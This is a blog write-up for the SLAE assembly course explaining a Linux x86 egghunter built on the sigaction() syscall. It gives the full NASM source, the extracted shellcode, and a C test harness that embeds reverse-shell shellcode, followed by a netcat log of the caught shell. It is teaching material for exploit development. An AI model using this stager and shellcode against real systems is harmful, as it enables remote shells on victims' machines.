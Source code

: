 ```yaml
---
layout: post
title: Linux x86 Egghunter
tags: [slae]
---
```


This is the third assignment for the SLAE which is creating an Egghunter. So what is an Egghunter and why is it useful? Perhaps you have a buffer overflow but space is limited on the buffer and you're unable to fit all of your shellcode in one spot. What do you do? Well an egghunter could be the solution to your problem. 

An egg is simply a marker than can be set in front of your shellcode and then looked for in memory by an egghunter. Generally your egg should be unique and repeated twice. The reason for the repetition is to avoid the egghunter from recognizing itself during the search and jumping to the wrong spot. Once the egg is found by the egghunter, it simply jumps to your shellcode for execution. 

So how is this accomplished? Well the famous paper by Skape goes into detail on a few different techniques that can be used. Please check out that resource [here](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

For the purposes of this writeup we'll be utilizing the sigaction() method since it is the most efficient. We'll be using the sigaction() syscall to verify valid memory addresses to search for our egg in.

First let's take a look at the sigaction() syscall in the man pages.


```
NAME
       sigaction - examine and change a signal action

SYNOPSIS
       #include <signal.h>

       int sigaction(int signum, const struct sigaction *act,
                     struct sigaction *oldact);
```

We can see that sigaction takes three arguments, `signum` will be in EBX, the `act` pointer in ECX and `oldact` point in EDX. 

If we look further down in the man page we see the following:

```
ERRORS
       EFAULT act  or oldact points to memory which is not a valid part of the
              process address space.
```

What this means is that we can use the `act` pointer as a way to check for valid addresses in memory. If we check for an address that is not valid we'll get an `EFAULT` error returned. 

So for the purposes of our needs, we'll be putting in various memory addresses in ECX to have sigaction() check if its valid or not. If the memory is valid (`EFAULT` is not returned in EAX) then we'll search it for our egg. 

To get started we'll need to find the syscall number for sigaction() which is defined as 67 in `/usr/include/i386-linux-gnu/asm/unistd_32.h` on our Ubuntu box.

We'll also need to know the return value for an `EFAULT` which can be found in `/usr/include/asm-generic/errno-base.h` as 14. Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2 as the value. If this doesn't make sense to you check out two's complement to understand the negative number.  

Now that we have a way to search for valid memory we'll need a method to search for our egg efficiently. To accomplish this we'll utilize the SCASD assembly instruction which will compare EAX to a DWORD value located in EDI and set status flags for the result. If the comparison is a success the ZF (zero flag) will be set in EFLAGS.

After the comparison is ran, EDI will be automatically incremented by 4. This incrementation allows us to call SCASD again to do the second check to verify our egg has been found (remember we repeat the egg twice). If both of the SCASD checks pass then we'll know we've found our shellcode and we can JMP directly to EDI, which will have automatically be incremented to the start of our shellcode thanks to SCASD.

A summary on what needs to happen.

- We first need to set the ECX register to the bottom of the memory address space for sigaction to check. Page sizes in Linux x86 are 4096 which in hex is 0x1000, this contains nulls so to avoid this we'll need to first put 4095 into ECX then increment by 1 to get what we want.

- We then need to execute sigaction and check for the EFAULT return value (AL is checked with 0xf2 to save space).

- If `EFAULT` is returned we need to increment the memory page address and rerun sigaction to continue searching for valid memory addresses.

- If `EFAULT` is not returned we know we have a valid address, so we load our egg in EAX, move the current valid address we want to check against (currently stored in ECX) to EDI and run SCASD to check if we have a match.

- If there is no match, we need to increment our memory address and redo the process.

- If there is a match, we'll need to check for our egg again with SCASD.

- If there is no match, increment the memory address and redo the process again. If it is a match again, we've found our egg and can jump to EDI for execution.


## Final Assembly Code

```nasm
global _start

section .text
_start:

next_page:

	or cx,0xfff            ; set cx to 4095

next_address:

	inc ecx			; increment to 4096	
	push byte +0x43         ; sigaction()
	pop eax                 ; put syscall in eax
	int 0x80                ; execute sigaction()
	cmp al,0xf2             ; check for EFAULT
	jz next_page            ; if EFAULT jump to next page in memory
	mov eax, 0x50905090     ; move EGG in EAX
	mov edi, ecx            ; move address to be checked by scasd
	scasd                   ; is eax == edi? if so edi is incremented by 4 bytes
	jnz next_address        ; if not try with the next address
	scasd                   ; check for second half of EGG
	jnz next_address        ; if not try with next address
	jmp edi                 ; if EGG is found again, jmp to shellcode

```

## Testing the Code

First we'll need to compile and extract our egghunter shellcode.

```
absolomb@ubuntu:~/SLAE/assignments/3$ ./compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/3$ for i in $(objdump -d egghunter |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7
```

Once that is done a simple C program can be used along with our shellcode for the TCP reverse shell from the previous post.

```c
#include<stdio.h>
#include<string.h>


#define EGG "\x90\x50\x90\x50"

unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8"
EGG
"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

// Reverse Shell on 127.1.1.1 port 1234
unsigned char code[] = \
EGG EGG
"\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x87\xdf\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	
	printf("Egghunter Length:  %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```

Notice in the code we aren't calling our reverse shell shellcode directly, only the egghunter. We can use any payload we like, we just have to make the modifications to the `code` variable.  

Let's compile and test.

```
absolomb@ubuntu:~/SLAE/assignments/3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/3$ ./egghunter
Egghunter Length:  30
Shellcode Length:  84
```

In another terminal we catch our shell

```
absolomb@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 48094)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>